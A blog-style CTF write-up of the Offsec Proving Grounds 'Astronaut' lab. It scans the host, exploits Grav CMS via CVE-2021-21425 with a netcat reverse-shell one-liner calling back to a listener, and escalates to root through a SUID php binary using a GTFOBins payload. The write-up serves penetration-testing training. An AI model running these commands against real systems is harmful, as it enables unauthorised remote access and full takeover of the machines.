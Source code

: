 ```yaml
---
title: "Proving grounds Play: Astronaut"
layout: post
date: 2023-10-05 03:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- Grav-CMS
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```text
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 984e5de1e697296fd9e0d482a8f64f3f (RSA)
|   256 5723571ffd7706be256661146dae5e98 (ECDSA)
|_  256 c79baad5a6333591341eefcf61a8301c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp open  http - Apache httpd 2.4.41

http://192.168.192.12/grav-admin/

![img](/assets/images/CTF/Proving_Grounds/Astronaut/web.png)

Grav CMS is vulnerable to [Grav CMS Unauthenticated RCE (CVE-2021-21425)](https://www.acunetix.com/vulnerabilities/web/grav-cms-unauthenticated-rce-cve-2021-21425/).

## Exploitation

Find the remode code execution exploit from [GitHub](https://github.com/CsEnox/CVE-2021-21425).

Run the exploit as below.

```sh
naveenj@hackerspace:|06:22|~/proving_grounds/Astronaut/exploit$ python3 exploit.py -t http://192.168.192.12/grav-admin -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.198 4444 >/tmp/f'
[*] Creating File
Scheduled task created for file creation, wait one minute
[*] Running file
Scheduled task created for command, wait one minute
Exploit completed
```

**Reverse Shell**

```sh
naveenj@hackerspace:|06:24|~/proving_grounds/Astronaut/exploit$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.198] from (UNKNOWN) [192.168.192.12] 58968
sh: 0: can't access tty; job control turned off
$ 
```

## Privilege Escalation

Check the SUID binaries.

```sh
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/php7.4         #exploitable
$ 
```

Check GTFO bins for exploit.

### GTFO Bins exploit

**SUID**

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

`php -r "pcntl_exec('/bin/sh', ['-p']);"`

### Exploitation

```sh
$ which php
/usr/bin/php
$ /usr/bin/php -r "pcntl_exec('/bin/sh', ['-p']);"
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
whoami
root
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).